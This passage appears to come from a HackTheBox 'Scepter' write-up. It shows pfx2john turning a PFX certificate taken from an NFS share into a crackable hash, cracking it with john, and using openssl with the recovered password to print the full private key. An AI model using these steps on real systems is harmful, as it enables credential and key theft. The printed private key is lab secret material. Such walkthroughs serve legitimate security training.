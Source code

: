 To crack `pfx` files using `pfx2john` tool for bruteforcable format.

```bash
pfx2john nfsshare/clark.pfx > clark.hashes
```

Successfully cracked with old friend `john` .

![](/assets/images/HTB-Scepter/Pasted_image_20250718060934.png)

Verifying the password is correct

```bash
┌──(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# openssl pkcs12 -in nfsshare/clark.pfx -nocerts -nodes -passin pass:newpassword 
Bag Attributes
    localKeyID: E1 84 EA CC 0B 68 19 40 D4 CA 6B 14 C1 8E 9E 30 E7 AA 48 B4 
Key Attributes: <No Attributes>
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDdrPemdIl0KT5N
X3+cS1g3/es5nfAsX7FcmiGmD9kodovcTtOnxLvXCQc4iANb+OeJECO+0CRU3Sph
DxYLy1Wwv9KAGb1bkQfMsoavUp2eRkhm6IuYKfFzeBSdzfBF86C4k74n28pZRbgW
1wRg436z7725nWwjcKgz9rZscqBBhcfCs6I9RRJnPRSCR7btyYoE7a8YT0CL/23T
GSLp5xHflK2IctGunvg1GbdsJ/AtuoyOqhkKHVgFuTOhlzGMx7MNQBuB9jQOd9Oz
GHwB0/ANPIL5vQpii5GwkMACAMuifHDKVO50ANRPm2oJHWm9YRtpgVDyOIRya/4d
hDftRqWNAgMBAAECggEAI9NB3Mlls3u84WVHKtu0YKwtOU0QlSNL9zLDsGJMTrFF
7i9hHnJ5hwmi/JxiqpkB1lFg7YQW8w4hPLli7zoH2b5OhzxhsWwxbgAGK0x3Q66J
IfSAJvHUXzxvXId9RtjWRy49Y5SuUZomY66ROxVZEzxyFY7e/KVG0csT9VfbFWt7
3wdzY2KcZpcn+I91Wlhkmojt6iHJdIrTgGdL/GxgcAj1R9lYt87pJGZE/LN45oJD
JaFh/Wj548RNmO/PkdfWiNnJWrmDiXknbIUeAI1VI43zjxTE3CE4EJ127dGcftsF
ohlBsm4CkPfGCgtvnEgg+p2mCFKAPMvEvMrWGLEbQwKBgQD7O2YfZfOMa3O8wyFs
79BDtaXof3qHTQngpagZXI6wFsdrDC21uKV3YlRsqxibQx19ONJWZxAGKGfJYmhr
0zculbfh0958FT1+9T148bD4I8c0/gHo5MtyK3pT0Srp36Dcr4k0WA+BZ59WGqPw
NK7vDjbdr++GwDciiBSB4FHHuwKBgQDh4fhQDRXaHZZaniJ1yyAhMqlzA7gm9YwP
HJNWcde9IE0HTAXdrqgu8FhfBYwoKmILVnVcKOViFspXqoZ8f0SW3jldWuz9xAMj
/GIWWMvtK8RvfqRBSitKJfPVdTAss7oHx+sd+fdd1OsMuJl13e1GhvORAE+4kur3
36ZKWNJ/VwKBgGCkFsKZOziW1OyVuzPmhBynsWxgLUgCsHwD/UfUPOcrvAZHpwWy
Q6RK5OLwZgTDqoJS60ZlWtqjjFkBS92+YAnBefyavYjJuuAtgjoV7tdlG+ock6t8
523Bn8rCOVnBtmVt+L9z6HME41wB33I1Md2vgBeC6AbTxeG4qvrSyWKlAoGBAISD
W3gi5RHrT5xjrtWpz3SKUwwtP2hjnsHywqDw8l56R5YjTEGrx/CZgU5lY77gdlou
Y3UobMEpm5TobjM1OljDj6WrxOJujmUbF7QCbcf6aCf8hIHk8BZ0w2ITeKqQ2W7d
IpqYXT0HvsjctvKFukAoxVToeNxQHFZENzrgdsTLAoGBANoTOkeaIoSc4C8RyXLS
XY1UVqQLL2JfMzslc3HtCJru1Mx1C5EumF6qDkbQTnj52cj9/t7DOHqS+9z15Na0
erilQLHbPqmPt27z04OfKOsXHEgBKGDdvFKBioeZExWTmGkvwt4p0HwwJnxHv4EF
lI6PhL1ptAhHpO8tAY4frjRx
-----END PRIVATE KEY-----
```
